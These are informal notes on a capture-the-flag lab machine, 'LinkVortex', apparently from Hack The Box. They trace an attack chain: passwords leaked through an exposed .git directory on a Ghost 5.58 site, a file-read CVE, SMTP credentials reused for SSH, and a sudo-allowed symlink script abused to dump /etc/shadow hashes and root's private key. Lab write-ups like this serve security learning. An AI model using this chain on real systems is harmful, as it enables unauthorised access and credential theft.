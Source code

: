 ___



http://linkvortex.htb/server-status

page available but don't have permissions to see it

CMS (content management system) is GHOST 

linkvortex.htb/ghost is login page

i can see on the site that admin is a user

GHOST 5.58 is being used
I have CVE for it # CVE-2023-40028
but need admin password?

need to enumerate dev subdomain
have not found anything there> getting word list diffed?

nmap taking 50 bilion years for some reason idk why


this is the only subdomain
http://dev.linkvortex.htb/


found dev.linkvortex.htb/.git  directory

# creds

in there on one of the commits you have hard coded credentials 
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';


# more creds 

name: 'test user',
email: 'test-leo@example.com',
password: 'thisissupersafe',
blogTitle: 'a test blog'


# more

name: 'test user edit',
email: 'test-edit@example.com',
password: 'thisissupersafe',
blogTitle: 'a test blog'


 # more

const email = 'test@example.com';
const password = 'thisissupersafe';



I have creds and passwords and i have the exploit, what I don't have is a username
what is the username?

admin?
linkvortex?
link?
vortex?

# found user

admin@linkvortex.htb
password: OctopiFociPilfer45

# dumped /etc/passwd

file> /etc/passwd  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash


# ghost 5.58 is the version

running a docker container with it to identify what important files i need to read


# got this from /var/lib/ghost/config.development.json

  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }

# can log into ssh with this password/user !!!!!
# user flag


# can run this as root

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png

# /etc/shadow

bob@linkvortex:/opt/ghost$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png 
Link found [ /home/bob/test.png ] , moving it to quarantine
Content:
root:$y$j9T$C3zg87gHwrCXO0vl4igIh/$iisf9sVwilKAi7mI5p1FqQslJWM9t2.YUWznIPC/XIA:19814:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
usbmux:*:19814:0:99999:7:::
bob:$6$rounds=656000$4p3mw8hAd9ir.25f$ocGm9nW1TM2AB8Z.l0K.hi43bOrm3oxQsaKFACMoS2UL.tIXxSW3u/xsClrvkEhP5s.GUpdIvCX3qRtppDV8r.:19814:0:99999:7:::
dnsmasq:*:19814:0:99999:7:::
_laurel:!:20057::::::


# was able to read files with script creating a double sym link 

# did it from bob directory theres a weird sticky bit in tmp thta stops it from working????



# after this read /root/.ssh/id_rsa thats the private ssh key

logged into root with ssh -i private_key root@linkvortex.htb

thats it pwn




